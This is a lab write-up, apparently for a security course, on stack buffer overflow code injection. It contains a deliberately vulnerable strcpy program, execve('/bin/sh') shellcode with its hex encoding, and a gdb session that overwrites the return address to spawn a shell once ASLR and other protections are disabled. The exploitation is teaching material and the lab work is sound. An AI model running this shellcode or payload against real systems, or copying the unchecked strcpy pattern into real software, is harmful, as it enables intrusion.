# Code injection using Buffer Overflow

```c
#include <stdio.h>
#include <string.h>
int main(int argc, char *argv[])
{
    char buf[64];
    if (argc == 1)
        printf("missing argument\n");
    else
        strcpy(buf, argv[1]);
    printf("buf: 0x%x\n", (unsigned int)buf);
    return 0;
}
```

Target: Inject a snippet of code into the program. In this lab, we will inject a snippet of assembly code to spawn a new shell.

## 1. Write shellcode

### 1.1. Write shellcode

We will write a program in assembly language. This program will spawn a new shell `/bin/sh`. The program is saved as `sh.asm`.

```assembly
section .text
global  _start
_start:
    xor     eax,eax
    push    eax
    push    "//sh"
    push    "/bin"
    mov     ebx,esp
    push    eax
    push    ebx
    mov     ecx,esp
    xor     edx,edx
    xor     eax,eax
    mov     al,0x0B
    int     0x80
```

**Compile the program**

To compile the program, run the following script:

```bash
nasm -g -f elf sh.asm
```

A new file `sh.o` is created.

And to link the the code to create executable file:

```bash
ld sh.o -o sh
```

**Result**



A new file `sh` is created.

---

### 1.2. Generate hex string

To inject the above assembly code snippet, we need to generate the hex values so that we can use those values as input.

**Print string onto terminal**

Run the following script to generate the hex string of shellcode and print it onto terminal.

```bash
for i in $(objdump -d sh |grep "^ "|cut -f2); do echo -n '\x'$i; done; echo
```

Result:


For later use, I will save the string into a txt file `hex.txt`.



**Generate binary file**

Another method is to created a binary file of shellcode if injecting by reading the file

```bash
for i in $(objdump -d sh |grep "^ " |cut -f2); do echo -ne '\x'$i >> sh.bin; done;
```

Result

<p style="text-align: center;">
    
    
</p>

---

### 1.3. Calculations

We need to estimate the size of vulnerable program with input strings of various length.

First, the program must be compiled with option `-fno-stack-protector` to disable the stack protector. Also, we need to allow the program to execute code on stack with option `-z execstack`.

```bash
gcc vuln.c -o vuln.o -fno-stack-protector -z execstack -mpreferred-stack-boundary=2
```

Secondly, estimate the buffer size of the program. Notice that there is a char variable named `buf` with the size of 64 bytes. The following picture represent the stack frame of the `main()` function of the vulnerable program.

<p style="text-align: center;">
    
</p>

We can easily see that from `esp` to `eip`, there are 72 bytes, with 64 bytes of `buf`, 4 bytes of `ebp`, and 4 bytes of `eip`.

Remember the hex string we generated from the previous shellcode? Now we need to count how many bytes there are. A trick to do it fast is using `Ctrl + F` to find `x`.



The program is 27 bytes long. When we inject the hex string of the program into the stack, it only takes 27 bytes over 64 bytes of `buf`. To execute the shellcode through a buffer overflow, we need to overwrite the return address on the stack so that, instead of returning to the original caller (or exit), the program jumps to the location in memory where the shellcode is stored—in this case, the `esp` (stack pointer).

In short, the input should be 72 bytes long, with the first 27 bytes is the hex values of shellcode, the next 41 bytes padding characters, and the last 4 bytes is the address of `esp`.

## 2. Preparing for the attack

We first need to turn off OS's address space playout randomization by

```bash
sudo sysctl -w kernel.randomize_va_space=0
# password for seed is "dees"
```



Then create a link to `zsh` instead of default dash to turn off bash countermeasures of Ubuntu 16.04:

```bash
sudo ln -sf /bin/zsh /bin/sh
```



## 3. Attack

First, load `vuln.o` in `gdb`, then disassemble the `main()` function

```bash
gdb -q vuln.o
```

```bash
gdb-peda$ disas main
```



To get the address of `esp` and replace it for the return address, we need to set a break points after `strcpy` (address `0x08048468`):

```bash
gdb-peda$ b *0x08048468
```



Run the program with the [pre-calculated](#13-calculations) input (here I use `ff ff ff ff` to fill in the return address, so that I will know which address is `eip` to replace), and it will stop at the break point:

```bash
gdb-peda$ r $(python -c "print('\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc0\xb0\x0b\xcd\x80' + '\x10'*41 + '\xff\xff\xff\xff')")
```

**Explain**

-   `'\x31\xc0\x50...\x0b\xcd\x80'`: The hex string of shellcode we [generated](#12-generate-hex-string).
-   `'\x10'*41`: 41 padding characters.
-   `'\xff\xff\xff\xff'`: 4 easily recognized characters so that we know which part is the `eip`.



Then, we will watch the stack from `esp`:

```bash
gdb-pada$ x/80xb $esp
```



The <span style="color: red;">red</span> part is the <span style="color: red;">shellcode</span> that we want to inject.

The <span style="color: green;">green</span> part is the <span style="color: green;">41 bytes padding characters</span>.

The <span style="color: dodgerblue;">blue</span> part contains 4 `\xff` characters, which is our target to modify, the `eip`.

From the memory shown, the first `\xff` is at address `0xffffd69c`, which also is the address `eip`. We are going to change the value of the 4 `\xff` to the address of `esp`, which is the start of the <span style="color: red;">red</span> part (`0xffffd658`):

```bash
gdb-peda$ set *0xffffd69c = 0xffffd658
```

Check the stack again, make sure the last 4 values is now `0x58 0xd6 0xff 0xff`:

```bash
gdb-pada$ x/80xb $esp
```



Continue executing program, we should now be in the new bash shell:


We can new test if it works by using a simple `ls` command:


It does work, but immediatly exit gdb and got a warning

<span style="color: yellow; font-family: monospace">Warning: not running</span>

and then the program stopped.

Here I tried using `ls` many times, but I still got "kicked out".


